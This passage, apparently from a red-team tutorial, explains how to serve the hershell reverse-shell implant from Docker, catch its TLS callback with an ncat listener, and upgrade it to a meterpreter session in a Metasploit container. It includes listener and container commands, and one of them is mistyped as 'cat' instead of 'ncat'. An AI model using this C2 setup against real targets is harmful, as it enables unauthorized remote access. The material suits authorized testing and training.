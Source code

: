 Point your web browser to `http://DOCKER-HOST-IP:8000`, download the implant for your target environment, as well as `server.pem` and `server.key` for our C2.

Alternatively, you can use `wget` or `curl`.

You should keep the hershell container running as we'll need to fetch our certificate and key with Metasploit.

### Ncat with TLS cert & key

To catch the initial reverse call, we'll use the `ncat` example provided. `ncat` can be found in the `nmap` package.

Once our `server.pem` and `server.key` files downloaded, we can set it up like so:

```
$ cat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 8088
```

If everything goes according to plan, running the hershell binary should get you a clean reverse connection to the ncat listener.

![rev](https://github.com/khast3x/khast3x.github.io/blob/master/assets/demo/hershell_ncat.png?raw=true)

### MSF

[This](https://hub.docker.com/r/remnux/metasploit/) build encapsulates the Metasploit Framework, as well as a pre-configured `postgresql` server with the `msfdb` working.
The `nmap` package is also pre installed, meaning we have `ncat` in the container too.

### Launch

We're going to upgrade our hershell to a meterpreter session, using a dockerized Metasploit console.  

Contrary to the previous method, MSF will only need our `server.pem` file.


To launch our `metasploit` container, we simply do:

```bash
$ docker run -it -p "8443:8443" -v ~/.msf4:/root/.msf4 -v /tmp/msf:/tmp/data remnux/metasploit
```

The first run might take some time, so leave it running a few minutes :coffee:

We're using the `docker run` line from the [Docker hub page](https://hub.docker.com/r/remnux/metasploit/).
